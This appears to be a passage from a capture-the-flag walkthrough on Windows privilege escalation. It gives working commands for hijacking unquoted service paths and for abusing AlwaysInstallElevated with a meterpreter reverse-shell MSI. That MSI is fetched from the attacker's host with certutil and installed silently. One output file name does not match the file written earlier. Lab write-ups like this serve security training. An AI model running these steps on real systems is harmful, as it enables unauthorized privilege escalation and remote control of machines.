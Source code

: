```powershell
# Find unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# PowerShell method
Get-WmiObject win32_service | Where-Object {
    $_.PathName -notmatch '"' -and 
    $_.PathName -notmatch 'C:\\Windows' -and
    $_.StartMode -ne 'Disabled'
} | Select-Object Name, DisplayName, PathName, StartMode

# Check specific services
sc qc FakeAntivirus
sc qc BackupManager
sc qc RemoteSupportAgent
```

For unquoted paths like `C:\Program Files\Antivirus Software\Engine\av.exe`:
```powershell
# Test write permissions
icacls "C:\Program Files\"
icacls "C:\Program Files\Antivirus Software\"

# Create hijack executable
echo 'whoami > C:\proof.txt' > "C:\Program.bat"
# or
Copy-Item C:\Windows\System32\cmd.exe "C:\Program Files\Antivirus.exe"

# Restart service
Restart-Service FakeAntivirus
# or
sc stop FakeAntivirus
sc start FakeAntivirus

# Check results
type C:\ws_unquoted1.txt
```

**FLAG{N***************6}** - From FakeAntivirus
**FLAG{C***************9}** - From BackupManager  
**FLAG{N***************6}** - From RemoteSupportAgent

### Step 5.2: AlwaysInstallElevated

```powershell
# Check if vulnerable
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Both should return 0x1
```

Exploitation:
```bash
# From Kali
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$LHOST LPORT=4444 -f msi -o privesc.msi

# Start handler
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST $LHOST; set LPORT 4444; run"

# On target
certutil -urlcache -f http://$LHOST/privesc.msi privesc.msi
msiexec /quiet /qn /i privesc.msi

```